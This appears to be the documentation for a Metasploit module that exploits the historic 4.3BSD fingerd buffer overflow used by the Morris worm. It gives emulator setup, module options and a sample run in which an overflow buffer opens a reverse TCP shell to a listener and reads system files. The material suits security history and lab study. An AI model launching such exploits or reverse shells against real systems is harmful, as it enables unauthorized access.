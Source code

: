 ## Intro

This module exploits a stack buffer overflow in `fingerd` on 4.3BSD.
This vulnerability was exploited by the Morris worm in 1988-11-02.
Cliff Stoll reports on the worm in the epilogue of *The Cuckoo's Egg*.

## Setup

For manual setup, please follow the Computer History Wiki's
[guide](http://gunkies.org/wiki/Installing_4.3_BSD_on_SIMH) or Allen
Garvin's [guide](http://plover.net/~agarvin/4.3bsd-on-simh.html) if
you're using [Quasijarus](http://gunkies.org/wiki/4.3_BSD_Quasijarus).

A Docker environment will be provided and referenced in this document.

## Targets

```
Id  Name
--  ----
0   @(#)fingerd.c   5.1 (Berkeley) 6/6/85
```

## Options

**RPORT**

Set this to the target port. The default is 79 for `fingerd`, but the
port may be forwarded when NAT (SLiRP) is used in SIMH.

**PAYLOAD**

Set this to a BSD VAX payload. Currently only
`bsd/vax/shell_reverse_tcp` is supported.

## Usage

```
msf5 exploit(bsd/finger/morris_fingerd_bof) > options

Module options (exploit/bsd/finger/morris_fingerd_bof):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS  127.0.0.1        yes       The target address range or CIDR identifier
   RPORT   79               yes       The target port (TCP)


Payload options (bsd/vax/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.1.2      yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   @(#)fingerd.c   5.1 (Berkeley) 6/6/85


msf5 exploit(bsd/finger/morris_fingerd_bof) > run

[*] Started reverse TCP handler on 192.168.1.2:4444
[*] 127.0.0.1:79 - Connecting to fingerd
[*] 127.0.0.1:79 - Sending 533-byte buffer
[*] Command shell session 1 opened (192.168.1.2:4444 -> 192.168.1.2:51992) at 2018-09-25 10:14:15 -0500

whoami
nobody
cat /etc/motd
4.3 BSD UNIX #1: Fri Jun  6 19:55:29 PDT 1986

Would you like to play a game?
```
